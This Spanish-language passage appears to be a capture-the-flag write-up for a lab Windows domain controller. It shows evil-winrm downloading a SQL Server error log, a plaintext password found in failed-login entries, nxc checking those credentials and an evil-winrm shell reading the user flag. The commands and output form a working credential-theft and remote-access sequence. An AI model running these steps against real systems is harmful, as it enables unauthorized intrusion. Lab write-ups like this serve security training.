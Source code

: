 ## Initial Access

### Information Leakage

Realizando una enumeración del equipo, localizamos un archivo llamado `ERRORLOG.BAK` localizado en `C:\SQLServer\Logs`. Este archivo quizás pueda tener información que nos pueda servir más adelante, por lo tanto nos lo descargaremos a través del comando `download` que nos proporciona `evil-winrm`.

```powershell
*Evil-WinRM* PS C:\SQLServer\Logs> ls


    Directory: C:\SQLServer\Logs


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         2/7/2023   8:06 AM          27608 ERRORLOG.BAK


*Evil-WinRM* PS C:\SQLServer\Logs> download ERRORLOG.BAK
                                        
Info: Downloading C:\SQLServer\Logs\ERRORLOG.BAK to ERRORLOG.BAK
                                        
Info: Download successful!
```

Analizando el archivo `ERRORLOG.BAK` logramos verificar en los logs un intento de inicio de sesión del usuario `Ryan.Cooper` en el cual nos aparece las credenciales en texto plano de dicho usuario.

{% code title="ERRORLOG.BAK" %}
```bash
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
```
{% endcode %}

### Abusing WinRM - EvilWinRM

Verificaremos de que las credenciales son válidas para el usuario mencionado y si tenemos capacidad de conectarnos al equipo. Al comprobar el acceso, nos conectaremos al `DC` y verificaremos la flag **user.txt**.

```bash
❯ nxc winrm 10.10.11.202 -u 'Ryan.Cooper' -p 'NuclearMosquito3'
WINRM       10.10.11.202    5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
WINRM       10.10.11.202    5985   DC               [+] sequel.htb\Ryan.Cooper:NuclearMosquito3 (Pwn3d!)
❯ evil-winrm -i 10.10.11.202 -u 'Ryan.Cooper' -p 'NuclearMosquito3'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> type ../Desktop/user.txt
4b79e2057279*********************
```